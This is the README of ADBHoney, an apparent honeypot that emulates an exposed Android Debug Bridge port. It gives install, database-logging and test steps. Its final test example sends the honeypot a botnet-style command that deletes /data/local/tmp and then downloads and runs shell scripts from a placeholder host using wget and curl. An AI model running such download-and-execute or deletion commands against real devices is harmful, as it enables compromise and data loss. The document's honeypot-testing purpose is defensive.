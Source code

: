 # Installation guide (on Ubuntu 16.04): 

1) (Optional) Create user *adbh*  (not root user) and switch to it   
``` $ sudo su - adbh ```   
2) Create virtual envirionment (Python 2.7.\*) with name *adbh_env*    
``` $ virtualenv --python=python2 adbh_env ```   
``` $ cd adbh_env/ ```   
3) Activate the envirionment   
``` $ source ./bin/activate ```  
``` $ cd .. ```    
4) Create folder *adbh_project* inside *adbh_env*   
``` $ mkdir adbh_project ```   
``` $ cd adbh_project/ ```   
5) Clone the project from the repository   
``` $ git https://github.com/venetay/ADBHoney.git . ```   
6) Install requitements   
	(Dependance: sudo apt-get install libmysqlclient-dev python-dev)
``` $ pip install -r requirements.txt ```   
7) Start
``` $ python adbhoney.py ``` 

============================================================

## MySQL Configuration 

First create an empty database named 'adbhoney'.
```
$ mysql -u root -p
CREATE DATABASE adbhoney;
```

Create a adbhoney user account for the database and grant access privileges:

**All Privileges:**

```
GRANT ALL ON adbhoney.* TO 'adbhoney'@'localhost' IDENTIFIED BY 'PASSWORD HERE';

```

**Restricted Privileges:**

Alternatively you can grant the adbhoney account with less privileges. The following command grants the account with the
bare minimum required for the output logging to function:

```
GRANT INSERT, SELECT, UPDATE ON adbhoney.* TO 'adbhoney'@'localhost' IDENTIFIED BY 'PASSWORD HERE';
```

Apply the privilege settings and exit mysql.
```
FLUSH PRIVILEGES;
exit
```

Next, log into the MySQL database using the adbhoney account to verify proper access privileges and load the database schema provided in the docs/sql/ directory:
```
$ cd adbhoney/docs/sql/
$ mysql -u adbhoney -p
USE adbhoney;
source mysql.sql;
exit
```

# MySQL plugin uses geolocation. 
1) Download GeoLite2-ASN.mmdb and GeoLite2-City.mmdb   
``` https://dev.maxmind.com/geoip/geoip2/geolite2/ ```   
2) Set the right location of the databases used for geolocation in the config file 
 

==================================================


## SQLite3 logging module

Logging to SQLite3 database. To init the database, use the script
docs/sql/sqlite3.sql:
     sqlite3 <db_file> < docs/sql/sqlite3.sql


===================================================
# Start and test example 

// test adb commands 

```
sudo install adb 
sudo apt install android-tools-adb
```

---------------------------------------------------------------------

tty1:   
``` .../ADBHoney$ python adbhoney.py ```

--------------------------------------------------------------------- 

tty2:   
``` $ nmap 127.0.0.1 ```

```
$ adb connect 127.0.0.1
$ adb connect 127.0.0.1:5555  
//* daemon not running. starting it now on port 5037 *
//* daemon started successfully *
//connected to 127.0.0.1:5555
```

```
$ adb devices
//List of devices attached 
//emulator-5554	device
//127.0.0.1:5555	device
```

```
$ adb -s 127.0.0.1:5555  push -p filename /sdcard/
//Transferring: 5078064/5078064 (100%)
//4805 KB/s (5078064 bytes in 1.031s)
```

``` $ adb -s 127.0.0.1:5555 shell ```

``` $ adb -s 127.0.0.1:5555 shell "rm -rf /data/local/tmp/*" ```

```
$ adb -s 127.0.0.1:5555 shell "cd /data/local/tmp;wget http://yyy.yyy.yyy.yyy/br -O- >br;sh br;busybox wget http://yyy.yyy.yyy.yyy/r -O- >r;sh r;curl http://yyy.yyy.yyy.yyy/c >c;sh c;busybox curl http://yyy.yyy.yyy.yyy/bc >bc;sh bc"
```
